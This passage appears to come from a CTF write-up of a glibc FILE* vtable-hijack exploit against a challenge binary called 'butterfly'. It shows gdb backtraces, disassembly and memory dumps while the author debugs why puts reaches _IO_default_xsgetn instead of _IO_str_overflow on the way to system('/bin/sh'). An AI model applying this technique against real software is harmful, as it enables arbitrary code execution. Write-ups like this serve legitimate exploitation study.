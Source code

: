 ```python  
p.sendafter(': ', payload)  
```  
Considering this is the first time I've ever done a `FILE*` exploit, I really
lucked out on how close my solution was to the right answer:  
```c  
[#0] Id 1, Name: "butterfly", stopped 0x7f2ee404c45f in __GI__IO_default_uflow
(), reason: SIGSEGV  
────────────────────────────────────────── trace
─────────────────────────────────────────────────  
[#0] 0x7f2ee404c45f → __GI__IO_default_uflow(fp=0x7f2ee43aa760
<_IO_2_1_stdout_>)  
[#1] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760
<_IO_2_1_stdout_>)  
[#2] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760
<_IO_2_1_stdout_>)  
[#3] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760
<_IO_2_1_stdout_>)  
[#4] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760
<_IO_2_1_stdout_>)  
[#5] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760
<_IO_2_1_stdout_>)  
[#6] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760
<_IO_2_1_stdout_>)  
[#7] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760
<_IO_2_1_stdout_>)  
[#8] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760
<_IO_2_1_stdout_>)  
[#9] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760
<_IO_2_1_stdout_>)  
```  
An infinite loop? That can't be right.

Doing a little bit of backtracing, I realise where the error lies:  
```c  
[#0] 0x7f2ee404c69d → __GI__IO_default_xsgetn(fp=0x7f2ee43aa760
<_IO_2_1_stdout_>, data=<optimized out>, n=0x3)  
[#1] 0x7f2ee403eaff → _IO_puts(str=0x560377d75c68 "Bye")  
[#2] 0x560377d75b35 → mov edi, 0x1337  
[#3] 0x560377d75b6a → mov eax, 0x0  
```  
`puts()` is calling `__IO_default_xsgetn` instead of `__IO_str_overflow`,
which — if you remember from a long while back — is our key to executing
`system("/bin/sh")`.

The instruction that calls `__IO_default_xsgetn` is none other than this:  
```python  
  0x7f48c65a3af5 <puts+197>       mov    rdx, rbx  
  0x7f48c65a3af8 <puts+200>       mov    rsi, r12  
→ 0x7f48c65a3afb <puts+203>       call   QWORD PTR [r13+0x38]  
  0x7f48c65a3aff <puts+207>       cmp    rbx, rax  
  0x7f48c65a3b02 <puts+210>       jne    0x7f48c65a3ba1 <_IO_puts+369>  
```  
`r13`, if you do the leg-work, is actually the `fake_vtable_addr` we provide
in the exploit code:  
```python  
(gdb) telescope $r13  
0x00007f48c690b368│+0x0000: 0x0000000000000000   ← $r13  
0x00007f48c690b370│+0x0008: 0x00007f48c65b3370  →  <_IO_str_finish+0> push rbx  
0x00007f48c690b378│+0x0010: 0x00007f48c65b2fd0  →  <_IO_str_overflow+0> mov
ecx, DWORD PTR [rdi]       # Need to call this  
0x00007f48c690b380│+0x0018: 0x00007f48c65b2f70  →  <_IO_str_underflow+0> mov
rax, QWORD PTR [rdi+0x28]  
0x00007f48c690b388│+0x0020: 0x00007f48c65b1430  →  <_IO_default_uflow+0> push
rbp  
0x00007f48c690b390│+0x0028: 0x00007f48c65b3350  →  <_IO_str_pbackfail+0> test
```